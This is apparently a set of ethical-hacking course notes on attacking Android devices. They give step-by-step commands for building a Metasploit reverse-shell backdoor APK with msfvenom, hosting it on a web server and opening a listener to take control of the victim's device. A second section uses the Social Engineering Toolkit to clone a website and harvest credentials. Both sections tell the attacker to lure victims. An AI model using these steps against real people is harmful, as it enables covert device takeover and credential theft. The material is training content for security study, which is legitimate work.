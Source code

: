 # Module 17 - Hacking Mobile Platforms #

## Creating Binary Payloads ##

Open a Terminal in Android. 
``` su ``` > ``` ip addr add <IP Address with Mask> dev eth0 ``` - To assign the IP Address to the android device

### msfvenom ###
In the attacker machine:

``` service postgresql start ```

``` msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=<Attacker IP> R > <Output Path>/Backdoor.apk ```

### Creating a Directory to Share with the Victim ###
1. ``` mkdir /var/www/html/share ```
2. ``` chmod -R 755 /var/www/html/share ```
3. ``` chown -R www-data:www-data /var/www/html/share ```
4. ``` mv /root/Desktop/Backdoor.apk /var/www/html/share ``` - Moving the malicious file to the shared folder

### Starting the Apache Server ###
``` service apache2 start ```

### Metasploit ###
``` msfconsole ```

Steps to set up a listener:
1. ``` use exploit/multi/handler ```
2. ``` set payload android/meterpreter/reverse_tcp ```
3. ``` set LHOST <Attacker Listener IP> ```
4. ``` exploit -j -z ```

### Luring the Victim ###
Now, the attacker should lure the victim to access: ```http://<Attacker IP>/share``` and download and execute the ```Backdoor.apk``` file.

### Metasploit / Meterpreter ###
If Meterpreter does not start automatically interacting with the victim, type: ``` sessions -i 1 ```.


- - - -

## Harvesting Users' Credentials ##

Open a Terminal in Android. 
``` su ``` > ``` ip addr add <IP Address with Mask> dev eth0 ``` - To assign the IP Address to the android device

### Social Engineering Toolkit ###

In the attacker machine launch the Social Engineering Toolkit.

1. Select ``` 1) Social-Engineering Attacks ```
2. Select ``` 2) Website Attack Vectors ```
3. Select ``` 3) Credential Harvester Attack Method ```
4. Select ``` 2) Site Cloner ```
5. Enter the attacker IP Address
6. Enter the URL to clone

### Luring the Victim ###
Now, the attacker should lure the victim to access: ```http://<Attacker IP>```. The site will be cloned from the original one. Once the user enters credentials, they will be logged into SET. 
